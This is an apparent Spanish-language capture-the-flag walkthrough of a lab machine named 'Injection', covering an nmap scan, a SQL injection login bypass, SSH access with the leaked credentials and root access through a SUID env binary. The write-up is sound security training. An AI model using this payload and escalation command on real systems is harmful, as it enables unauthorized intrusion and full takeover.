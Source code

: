 #Maquina Injection

Dificultad : Muy Facil

## Fase de Escaneo
---

Vamos a realizar un escaneo con nmap a los puertos, servicios y versiones de la maquina victima.

```
nmap -sVC -sS -n -Pn -p- 172.17.0.2
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-21 22:07 EDT
Nmap scan report for 172.17.0.2
Host is up (0.000010s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
|_  256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Iniciar Sesi\xC3\xB3n
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.86 seconds
```
### Parametros de Escaneo

`-sS` - SYN Scan (Stealth Scan)
- Envian paquetes SYN sin completar el handshake TCP
- Escaneo mas rapido y discreto
- Requiere privilegios de administrador

`-sV` - Deteccion de versiones
- Detecta que servicios y versiones corren en los puertos abiertos
- Analiza las respuestas para identificar el software

`-sC` - Scripts por Defecto 
- Ejecuta los Scripts NSE (Nmap Scripting Engine) predeterminados
- Realiza pruebas de seguridad basicas y recoleccion de informacion

### Parametros de Configuracion

`-n` - Sin Resolucion DNS
- No realiza resolucion DNS inversa
- Escaneo mas rapido al sltarse las busquedas DNS

`-Pn` - No Ping
- Trata todos loshosts como activos
- Util cuando el objetivo bloquea request de ping

`-p-` - Todos los puertos
- Escanea los 65,535 puertos TCP
- Equivalentes a `-p 1-65535`

### Convinaciones Especiales

`-sVC`
- Convina de `-sV` (deteccion de versiones) y `-sC` (scripts)
- Muy completo para reconocimiento

## Indagacion Web
Revisamos el servicio corriendo en el puerto **80** a travez de un browser

![screenshot-login](./resource/login.png)

Probamos con una inyeccion basica de SQL colocando `'or 1=1 -- -` en el nombre del usuario y cualquier password.

![injection-screen](./resource/injection.png)

Logramos ingresar al sistema y nos brinda un password y un usuario que podremos usar para ingresar al otro servicio expuesto.

![success-screen](./resource/login-success.png)

## Servicio SSH puerto 22
Ahora con la informacion que obtuvimos del sitio web vamos a probar acceder al servicio ssh con el usuario `dylan` y el password con el siguiente comando

```
ssh 172.17.0.2 -l dylan
```

Tambien puede ser de la siguiente forma que es mas comun

```
ssh dylan@172.17.0.2
```

Ahora nos va a pedir el password que obtuvimos anteriormente

```
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:5ic4ZXizeEb8agR4jNX59cBONCe5b5iEcU9lf2zt0Q0.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
dylan@172.17.0.2's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 6.6.9-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

dylan@a83a137e0699:~$ 
```

Ahora podemos verificar que somos el usuario Dylan y vamos a averiguar a que grupo pertenemos y que permisos tenemos
```
cat /etc/group
```

```
root:x:0:
daemon:x:1:
bin:x:2:
sys:x:3:
adm:x:4:
tty:x:5:
disk:x:6:
lp:x:7:
mail:x:8:
news:x:9:
uucp:x:10:
man:x:12:
proxy:x:13:
kmem:x:15:
dialout:x:20:
fax:x:21:
voice:x:22:
cdrom:x:24:
floppy:x:25:
tape:x:26:
sudo:x:27:
audio:x:29:
dip:x:30:
www-data:x:33:
backup:x:34:
operator:x:37:
list:x:38:
irc:x:39:
src:x:40:
gnats:x:41:
shadow:x:42:
utmp:x:43:
video:x:44:
sasl:x:45:
plugdev:x:46:
staff:x:50:
games:x:60:
users:x:100:
nogroup:x:65534:
mysql:x:101:
ssl-cert:x:102:
dylan:x:1000:
```

## Escalacion de Privilegios
Ahora que tenemos un panorama mas claro de los usuarios y grupos en el sistema vamos a buscar programas o binarios que tenan permisos SUID.
```
find / -perm -4000 -user root 2>/dev/null
```

```
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/mount
/usr/bin/env
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
```

Ya con un poco de experiencia puedes distingir lo binarios comunes y los que son un poco raros como es el caso del binario `/usr/bin/env` porque tiene permisos elevados en el sistema siendo un binario de enviroment
```
cd /usr/bin && ./env /bin/sh -p
```

Y ya tendremos acceso al sistema como root 

```
# whoami
root
```

# Maquina Pwneada